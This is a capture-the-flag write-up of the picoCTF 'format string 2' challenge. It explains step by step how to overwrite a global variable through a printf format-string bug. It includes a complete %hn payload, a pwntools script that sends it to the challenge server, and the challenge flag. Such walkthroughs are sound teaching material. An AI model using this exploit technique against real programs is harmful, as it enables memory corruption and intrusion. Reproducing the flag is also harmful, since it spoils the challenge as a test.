


## format string 2

Level: Medium

Category: Pwn

Link: [https://play.picoctf.org/practice/challenge/448](https://play.picoctf.org/practice/challenge/448)

### Description

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

Author: SkrubLawd

### Solution

The difference in this challenge compaed to the previous challenge is that the flag will only be read after we enter our input. Therefore we have no any other way around but to follow the what the challenge ask for.

We need to overwrite the global variable  `sus` to `0x67616c66`.

First, let's find the address of `sus`. This can be done using `objdump -D <filename>`. Global variables are located under `.data` section.



We can see the address of `sus` is `0x404060`.

Next, we need to overwrite `sus` using the `%n` format specifier with `printf`. The `%n` specifier stores the number of characters written so far into the integer pointed by `int *` pointer argument.

When no pointer argument is supplied to `printf`, it will takes from the stack.

So, like previous challenge, we first need to figure out where our format string is stored on the stack. We can pass in bunch of `%x`.



The format string starts at the 14th position. We can craft our format string now. 

The format string needs to include the address of `sus`, `0x67616c66` bytes of character and `%n`.

Since supplying `0x67616c66` characters is impractical and the program only takes in first 1024 bytes anyway. So we can make use of `%<N>x`, which pad the first argument with `N` characters (with `space`).

Furthermore, writting `0x67616c66` bytes of padded string to standard output will take forever. Instead, we will write `0x6761` and `0x6c66` seperately. To do this, we will use `%hn` instead of `%n`, which writes only two bytes at a time.

Here is the format string: `%26465x%18$hn.%1284x%19$hnAAAAAA\x62\x40\x40\x00\x00\x00\x00\x00\x60\x40\x40\x00\x00\x00\x00\x00`

Let's break it down:

- `%26465x` specifies write 26465 (which is `0x6761`) spaces.
- `%18$hn` specifies find the address at 18th position below the stack lines and store the number of bytes written so far into the memory pointed by the address.
  - Earlier, we know the start of format string is at 14th position.
  - If you count, the address will be at 18th position (each stack position occupies 8 bytes). 
  - (14): `%26465x%`, (15): `18$hn.%1`, (16): `284x%19$`, (17): `hnAAAAAA`, (18): `\x62\x40\x40\x00\x00\x00\x00\x00` and (19): `\x60\x40\x40\x00\x00\x00\x00\x00`
  - That's why there's some extra `A` in the format string, it is used for padding. The `.` is just for me easier to count.
- `%1284x` specifies write 1284 spaces. Since there's an extra `.` before it, here is 1284 instead of 1285 (which is `0x6c66` - `0x6761`).
- `%19$hn` is same as `%18$hn` except to find the address at 19th position.
- The address `\x62\x40\x40\x00\x00\x00\x00\x00` and `\x60\x40\x40\x00\x00\x00\x00\x00`:
  - `\x62\x40\x40\x00\x00\x00\x00\x00` is `0x404062` in little endian (padded with `\x00` because is a b4-bit program).
  - One thing to note here is `0x6761` is stored into `0x404062` and **NOT** `0x404060`
  - We can visualise it:
    - `0x404060`: `66`
    - `0x404061`: `6c`
    - `0x404062`: `61`
    - `0x404063`: `67`
  - If use GDB, we should see something like:
    - `0x404060 <sus>: 0x67616c66      0x00000000      [REDACTED]`

> [!TIP] 
> Notice that the format string starts with the `0x6761` part instead of `0x6c66`. This is because `0x6761` is smaller than `0x6c66`, and `%n`/`%hn` store the written bytes so far.

> [!NOTE]
> The format string is in the form of `[padding with %Xx][%N$n][padding with %Yx][%(N+1)$n][addressess]`.
> I origianlly tried `[addressess][padding with %(X-16)x][%N$n][padding with %Yx][%N$n]`, but I am not sure why putting addresses in front won't work, not sure if this is a Python string problem or I messed up some part.

Lastly, we can use Pwntools for the inputs.

Here's the script:

```python
#!/bin/python3

from pwn import *

p = remote("rhea.picoctf.net", 54091)
#p = process("./format-string-2")

addr1 = b"\x62\x40\x40\x00\x00\x00\x00\x00"
addr2 = b"\x60\x40\x40\x00\x00\x00\x00\x00"

# start with lower value
# A is used for padding
payload = b"%26465x%18$hn.%1284x%19$hn" + b"AAAAAA" + addr1 + addr2

p.sendlineafter(b"What do you have to say?\n", payload)

while True:
    try:
        print(p.recvline())
    except EOFError:
        break

p.interactive()
```

Reference: [https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack](https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack)

Flag: `picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}`